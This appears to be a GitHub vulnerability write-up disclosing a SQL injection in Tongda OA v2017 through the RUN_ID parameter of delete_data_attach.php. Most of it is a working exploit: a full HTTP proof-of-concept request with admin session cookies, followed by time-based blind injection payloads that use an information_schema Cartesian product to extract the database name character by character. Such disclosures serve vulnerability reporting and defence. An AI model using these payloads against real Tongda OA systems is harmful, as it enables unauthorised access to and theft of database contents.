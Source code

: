 SQL injection vulnerability exists in Tongda OA v2017 version

Route:/general/approve_center/query/list/input_form/delete_data_attach.php

There is an injected parameter: $RUN_ID

The code here is very concise. When $RUN_ID is not empty, the parameters are directly spliced ​​into the SQL statement. Since the parentheses are closed here, there is a bypass.

![image](https://github.com/18333199082/cve/assets/66902364/5f476875-2e96-4d38-b15d-247a6014a006)

POC

```
GET /general/approve_center/query/list/input_form/delete_data_attach.php?RUN_ID=1%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B) HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: USER_NAME_COOKIE=admin; SID_1=731fd63a; PHPSESSID=9n4hhfpii6p3elru0pcfs77ta5; OA_USER_ID=admin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```
2.Payload
We can use Cartesian product blind injection for injection. The following payload can determine that the first character of the database name is t, because it was successfully delayed at 116. The ASCII code 116 also corresponds to the lowercase letter t. By analogy, the database name and any information about the database can be obtained through blind injection.
```
1%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)
```
![image](https://github.com/18333199082/cve/assets/66902364/97a877cc-723e-47a3-b7b9-b2ca8f5c93f5)

Intercept the second digit of the database through blind injection, and determine the second digit as the letter d through the delay time
```
1%20and%20(substr(DATABASE(),2,1))=char(100)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)
```
![image](https://github.com/18333199082/cve/assets/66902364/79f7939a-1d85-4c23-9d5e-82d345696c66)

The third digit is the character _

```
1%20and%20(substr(DATABASE(),3,1))=char(95)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)
```
![image](https://github.com/18333199082/cve/assets/66902364/d1734ff0-aeb9-4741-9cec-377abed41a1f)

The fourth digit is the character o
```
1%20and%20(substr(DATABASE(),4,1))=char(111)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)
```
![image](https://github.com/18333199082/cve/assets/66902364/a99dcc95-dd24-4d30-b1ae-198d06bbe965)

The fifth digit is the character a

```
1%20and%20(substr(DATABASE(),5,1))=char(97)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)
```
![image](https://github.com/18333199082/cve/assets/66902364/959d0d71-7eba-41de-89a7-f83b53ced08d)

Then through blind injection, you can determine that the database name is: td_oa



